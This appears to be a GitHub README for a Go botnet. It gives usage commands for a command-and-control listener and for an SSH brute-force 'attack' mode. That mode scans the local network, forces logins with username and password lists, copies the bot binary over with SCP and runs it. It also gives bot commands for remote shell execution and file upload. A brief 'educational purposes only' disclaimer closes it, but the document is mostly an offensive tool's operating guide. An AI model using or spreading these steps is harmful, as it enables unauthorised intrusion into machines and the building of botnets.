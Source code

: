 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

Compile from the `botnet/cmd/botnet` directory.

 - Run the C&C:

```bash
botnet listen
```

This starts up a C&C that listens on default port `9999`.

- Attack a machine to get the botnet on the machine. The only supported attack right now is brute forcing SSH 

```bash
botnet -ufile /paht/to/usernames/file -pfile /path/to/passwords/file -bindir /path/to/botnet/bin/dir attack ssh
```

This will scan all the ips on the network find which ips have port 22 open and attempt to brute force its way in. Once it has access it will SCP the botnet binary over and execute the botnet client to connect to our command and control center

 - Connect a payload to the C&C:

```bash
botnet -target 192.168.2.2 -port 9999 connect
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<CC:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`

#Terms of Use

* Do NOT use this on any computer you do not own, or are not allowed to run this on.
* You may NEVER attempt to sell this, its free and open source.
* The authors and publishers assume no responsibility.
* For educational purposes only.
